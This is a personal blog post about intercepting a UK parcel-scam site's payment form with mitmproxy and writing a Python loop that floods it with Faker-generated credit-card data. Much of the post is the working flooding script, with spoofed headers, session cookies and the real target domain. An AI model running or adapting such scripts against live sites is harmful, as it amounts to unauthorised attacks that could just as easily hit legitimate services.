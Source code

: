 ```yaml
---
title: Scamming back the scammers
slug: scamming-back-the-scammers
date: 2022-04-14T17:38:00.000Z
date_updated: 2022-04-14T17:38:00.000Z
summary: Recently got a scammy text, but now their database will bleed
---
```


Disclaimer: I do not accept any responsibility for your actions, what you do or decide not to, is up to you. This blog post serves as a “Here’s what I did” opposed to a “Here’s how to do it”

Without wasting more time, let’s get to it.

Recently I got one of the texts every citizen of the UK has got at some point in their life - A parcel has attempted to be delivered - Pay for it!

![](__GHOST_URL__/content/images/2022/04/IMG_6100.jpg)
Now here’s where they went wrong.

I have too much free time and unlimited internet.

I tried to browse to their site ([local-shipstatus-gb.com](http://local-shipstatus-gb.com)) but they’re doing something clever where if you try and come to it form anything other than a mobile phone - you get a 404
![](__GHOST_URL__/content/images/2022/04/shipondesktop.jpg)

No matter what I did, I was unable to figure out a way around this on a browser.

As you can see from the below page, you can see that it looks somewhat like a post office site, and requires some input

![](__GHOST_URL__/content/images/2022/04/IMG_6104.jpg)

Now stupidly I forgot to take a screen capture of this, but here’s what I did:

1. Installed mitmproxy to my Mac and started `mitmweb`
2. Installed the Certs on my phone
3. Set the phone to use the IP address of the Mac for a Proxy
4. Browsed to the page and filled it out with Fake Data.
5. Saved the capture

From there I found the calls it was making to the web server

    'form_type': 'cc', 'ccname': ‘Tess Tickle’, 'ccnum': ‘123’, 'ccexp': ’12/25’, 'cccvv': ‘123’

Now what’s cool (not for them I guess?) is that their application doesn’t seem to be validating the numbers on the application - They are being captured then validated.

We simply need to write a python script that spams their server with the below fields: 

    form_type : Name of the form
    ccname : Name on Credit Card number
    ccnum : Credit Card number
    ccexp : Expiry of the credit card
    cccvv : CVV of the Credit card

---

We have to URL encode this in python, so spaces become %20, the normal stuff.

I used: 

    requests
    urllib.parse

Here’s our next issue… How do we make fake data to spam these chumps with?

Here comes Faker!

    from faker import Faker <code block>

We need to fake: Name, credit card, expiration and CVV - All of these faker can do

    from faker import Faker
    fake = Faker()
    
    name = fake.name()
    cnum = fake.credit_card_number()
    cexp = fake.credit_card_expire()
    cvv = fake.credit_card_security_code()

Now all we need to do is use the user-agent from our phone, and then spam the living crap out of these low life scammers

Enter our for loop:

    for s in range(100):
    cookie = ("PHPSESSID=" + sessionrandom)
    url = f'https://local-shipstatus-gb.com/Finish.php?session={urlrandom}'
    name = fake.name()
    cnum = fake.credit_card_number()
    cexp = fake.credit_card_expire()
    cvv = fake.credit_card_security_code()
    # f = { 'username' : name, 'password' : cnum, 'client_id' : cexp, 'client_secret' : cvv}
    f = {'form_type': 'cc', 'ccname': name, 'ccnum': cnum, 'ccexp': cexp, 'cccvv': cvv}
    urllib.parse.urlencode(f)
    safe_string = urllib.parse.urlencode(f)
    
    payload = safe_string
    headers = {
    'accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8',
    'content-type': 'application/x-www-form-urlencoded',
    'origin': 'https://local-shipstatus-gb.com',
    #  'cookie':'PHPSESSID=134ddeae9b576bc8daa0eb412ced6945',
    'cookie': cookie,
    'content-length': '72',
    'accept-language': 'en-GB,en;q=0.9',
    'user-agent': 'Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_4) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/13.1 Safari/605.1.15',
    # 'user-agent': agent,
    'referer': url,
    'accept-encoding': 'gzip, deflate, br'
    }
    
    response = requests.request("POST", url, headers=headers, data=payload)
    
    if response.status_code == 200:
    print("ok")
    elif response.status_code != 200:
    print(response.status_code)

If you want to read a full write up, and see how you could (not saying you should) launch an attach and their vulnerabilities:
[

GitHub - userbradley/fake-postoffice-spammer

Contribute to userbradley/fake-postoffice-spammer development by creating an account on GitHub.

![](https://github.githubassets.com/favicons/favicon.svg)GitHubuserbradley

![](https://opengraph.githubassets.com/0f1b4fa6e1bd7a3e0794c27bb6b334458e4993c864543cd9bd7ae4c414d6435f/userbradley/fake-postoffice-spammer)
](https://github.com/userbradley/fake-postoffice-spammer)
